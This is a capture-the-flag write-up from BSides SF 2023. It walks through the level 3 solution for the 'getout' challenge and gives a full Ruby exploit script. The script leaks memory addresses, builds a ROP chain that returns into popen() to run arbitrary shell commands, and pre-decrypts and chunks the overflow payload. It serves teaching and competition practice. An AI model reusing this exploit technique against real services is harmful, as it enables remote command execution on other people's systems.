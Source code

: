 ```yaml
---
title: "Level 3 solution"
author: ron
categories:
- solutions
layout: post
date: '2023-05-15T16:03:55-07:00'
permalink: "/solution3"
featured: true

---
```


This is a solution to the this challenge. It should only be published part-way
through the night, unless I push it early by mistake!

<!--more-->
## Solution

[Here's the full source online](https://github.com/BSidesSF/ctf-2023/tree/main/challenges/getout3-apply/solution)

To solve level 3, there's a lot:

* Connect to the service called `apply`
* Leak a pointer to a useful string
  * Send a message, but make the opcode a string type instead of an integer
  * Make the string a system command, anything you want (netcat is installed)
  * When the service responds invalid opcode, it'll return that command's memory address
* Leak a pointer to the string "r"
  * We're going to return into `popen()`, and we need that in the second parameter
* Build a ROP chain:
  * Get the address for the command into rdi (using `pop rdi / ret` @ 0x401cbb)
  * Get the address for "r" into rsi (using `pop rdi / pop r15 / ret` @ 0x401cb9)
* Return into the `popen` function @ 0x4011e0
* Pad the start of your payload to exactly overwrite the return address (568 bytes)
* *Decrypt* your payload, using the encryption key / IV from the binary
  * (The key / IV will be in the source below)
* Ensure there are no NUL bytes in your payload - if there are, tweak some padding
* Break it into 200-byte chunks
* Send it to the service
  * Send an OPCODE_IDENTIFY (101) and use the token from the previous level
  * Send an OPCODE_APPLY (102) and send the payload as 5 strings

That's a lot!

Let's see it as source code:

```ruby
# encoding: ASCII-8bit

require 'openssl'

require './libgetout'

# Constants
RETURN_OFFSET = 568

POP_EDI_RET = 0x401cbb
POP_ESI_POP_R15_RET = 0x401cb9
POPEN_ADDRESS = 0x4011e0

OPCODE_INSTRUCTIONS = 100
OPCODE_IDENTIFY = 101
OPCODE_APPLY = 102
OPCODE_CHECK_STATUS = 103

# Token from level 2
TOKEN = "48756d61-6e73-2061-7265-207461737479"

# Key / IV (reversed from the binary)
KEY = "\xa6\x8b\x2a\x1c\x48\x0c\xac\x26\x24\x43\xab\xf9\x98\xa8\x1f\x2b"
IV = "\x4a\x3b\x9f\x46\x33\x0b\x76\x4f\x69\x0c\x99\xc6\x62\x6f\xb9\x35"

# This lets us bypass connect-back stuff, by sending the flag back on every
# conceivable socket
CMD = 0.upto(32).map do |i|
  "cat /ctf/level3-flag.txt >&#{i}"
end.join(';')

# Decrypt the payload
def get_encrypted_string(offset, data)
  # Add the padding
  padding = 0x41.chr * offset

  # Configure the cipher
  cipher = OpenSSL::Cipher.new('AES-128-CBC')
  cipher.decrypt
  cipher.padding = 0
  cipher.key = KEY
  cipher.iv = IV

  # Add the padding, and pad the end to a multiple of 16 (the block size)
  str = padding + data
  while(str.length % 16 != 0)
    str.concat("\0")
  end

  # Decrypt the payload
  return cipher.update(str) + cipher.final()
end

def try_decrypt(data)
  cipher = OpenSSL::Cipher.new('AES-128-CBC')
  cipher.decrypt
  cipher.key = KEY
  cipher.iv = IV

  return cipher.update(data) + cipher.final()
end

def send_recv(s, expected, msg)
  s.write(msg)

  out = read_message(s)
  if out.shift[:value] != expected
    throw "Something went wrong: #{ out.to_s }"
  end

  return out
end

begin
  s = connect(ARGV[0], ARGV[1] || 1337)

  # Connect to the "apply" service
  out = use(s, 'apply')
  puts "*** Intro text: #{ out }"

  # Send OPCODE_IDENTIFY
  puts "* Identifying with the token from last level..."
  out = send_recv(s, 0, create_message([
    { type: :integer, value: OPCODE_IDENTIFY },
    { type: :string, value: TOKEN },
  ]))
  puts "Identified successfully!"
  puts

  ### Use a memory leak to get a pointer to the command

  # Send a bad opcode, which returns the command string's address
  puts "* Getting a pointer to the command string..."
  out = send_recv(s, 31002, create_message([
    { type: :string, value: CMD },
  ]))
  CMD_ADDRESS = out[0][:value].split(/ /).pop.to_i
  puts "0x%x => \"#{ CMD }\"" % CMD_ADDRESS
  puts

  # Send another bad opcode, which returns the "r" string's address
  puts "* Getting a pointer to the string \"r\"..."
  out = send_recv(s, 31002, create_message([
    { type: :string, value: 'r' },
  ]))
  R_ADDRESS = out[0][:value].split(/ /).pop.to_i
  puts "0x%x => \"r\"" % R_ADDRESS
  puts

  # Create a ROP chain - loop just in case it contains a NUL
  encrypted_payload = nil
  loop do
    puts "* Generating a ROP Chain..."
    rop = [
      POP_EDI_RET, # Pops CMD_ADDRESS into RDI
      CMD_ADDRESS,
      POP_ESI_POP_R15_RET, # Pops R_ADDRESS into RSI and something random into R15
      R_ADDRESS,
      rand(0..0xffffffffffffffff),
      POPEN_ADDRESS, # Return into popen()
      rand(0..0xffffffffffffffff),
    ].pack('QQQQQQQ')
    puts " => #{ rop.unpack('H*') }"
    puts

    # Decrypt the ROP chain, so the server will encrypt it back into the original
    puts "* Decrypt the ROP chain with padding..."
    encrypted_payload = get_encrypted_string(RETURN_OFFSET, rop)
    puts " => #{ encrypted_payload.unpack('H*') }"

    if !encrypted_payload.include?("\0")
      break
    end

    puts "* Our payload contained a NUL byte! Trying again with random values..."
  end

  # Send the overflow
  puts "* Sending the overflow..."
  puts

  # Break it into 200-byte chunks
  parts = encrypted_payload.unpack('a200a200a200a200a200')

  # Put the chunks into the APPLY message, where they will be concatenated
  send_recv(s, 0, create_message([
    { type: :integer, value: OPCODE_APPLY },
    { type: :string, value: parts[0] || 'hi' },
    { type: :string, value: parts[1] || 'hi' },
    { type: :string, value: parts[2] || 'hi' },
    { type: :string, value: parts[3] || 'hi' },
    { type: :string, value: parts[4] || 'hi' },
  ]))

  puts "* Trying to read the flag from the socket..."

  # Receive the flag from the socket (since we cat it into the socket)
  puts "Flag: #{ s.recv(10000) }"
ensure
  s.close if s
end
```
